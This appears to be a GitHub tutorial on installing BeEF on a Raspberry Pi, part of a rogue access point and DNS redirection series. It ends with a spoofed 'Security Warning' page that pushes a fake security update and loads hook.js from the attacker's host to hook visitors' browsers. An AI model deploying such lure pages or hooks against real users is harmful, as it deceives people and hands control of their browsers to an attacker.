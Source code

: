 # BeEF on Raspberry PI

BeEF (_Browser Exploitation Framework_) is a penetration tool focused on exploiting vulnerabilities inside web browsers.

## Objective

The aim of this tutorial is to set up BeEF on Raspberry PI and to show you where you could place the `hook.js`.

- [Setup Raspberry PI](../Setup)
- [Prepare Raspberry PI](../Preparation)
- [Simple Access Point](../AccessPoint)
- [DNS Analysis](../DNSAnalysis)
- [DNS Redirection](../DNSRedirection)

## Install needed and/or optional packages

Install (_or ensure they are installed_) following packages.

```shell
# update system (optional)
$ sudo apt update -y && sudo apt upgrade -y

# install optional packages (optional)
$ sudo apt install -y vim

# install needed packages
$ sudo apt install -y ruby-full curl git build-essential openssl libreadline6-dev zlib1g zlib1g-dev libssl-dev libyaml-dev libsqlite3-0 libsqlite3-dev sqlite3 libxml2-dev libxslt1-dev autoconf libc6-dev libncurses5-dev automake libtool bison nodejs libcurl4-openssl-dev
```

## BeEF

### Install BeEF

```shell
# changer into home directory
$ cd ~

# clone git repository
$ git clone https://github.com/beefproject/beef.git

# change into cloned repository directory
$ cd beef/

# modify install script
$ vim install
```

On line 106 are two packages which are not available `gcc-9-base` and `libgcc-9-dev`. You must remove them from the file `/home/pi/beef/install`! If you have already installed all packages, you can comment this line.

```shell
...
if [ "${Distro}" = "Debian" ] || [ "${Distro}" = "Kali" ]; then
   sudo apt-get update
   # sudo apt-get install curl git build-essential openssl libreadline6-dev zlib1g zlib1g-dev libssl-dev libyaml-dev libsqlite3-0 libsqlite3-dev sqlite3 libxml2-dev libxslt1-dev autoconf libc6-dev libncurses5-dev automake libtool bison nodejs libcurl4-openssl-dev gcc-9-base libgcc-9-dev
...
```

To save a lot of time, you can add `--no-document` into command `sudo gem${RUBYSUFFIX} update --system` on line 205.

### Configure BeEF

Just change username and password on `/home/pi/beef/config.yaml`.

```shell
# modify config.yaml
$ vim config.yaml
```

Read this [Wiki](https://github.com/beefproject/beef/wiki/Configuration) for more information's.

### Start BeEF

```shell
# start BeEF
$ ./beef
```

Open in your browser the URL `http://192.168.0.1:3000/ui/panel` and login with your credentials (_you have modified in the config.yaml_).

_Note: If you follow the output inside the terminal, you will see that some other packages are required. Install them if you need them (maybe in second terminal session) and execute the BeEF command again (inside the Browser UI)._

### Test BeEF local

You can also test BeEF locally, but be careful!

```html
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>local test of BeEF</title>
</head>
<body>
  <p>This is my local test site...</p>
  <script src="http://[your ip of wlan0 interface]:3000/hook.js"></script>
</body>
</html>
```

## Prepare the spoofed domain web page

Now we place the `hook.js` inside the fake page.

Content of file `/var/www/html/index.html`.

```html
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>Security Warning - with security update</title>
  <link type="text/css" rel="stylesheet" href="styles/style.css">
</head>
<body>
  <div id="warning">
    <h1>Security Warning</h1>
    <p>We have detected a serious security problem,<br /> 
       please install now the free security update!</p>
  </div>
  <div id="patch">
    <span><!-- placeholder security update --></span>
  </div>
  <script type="text/javascript" src="scripts/script.js"></script>
  <script src="http://192.168.0.1:3000/hook.js"></script>
</body>
</html>
```

## Additional

If the client has JavaScript disabled, this attack will not work.

[Go Back](../readme.md)
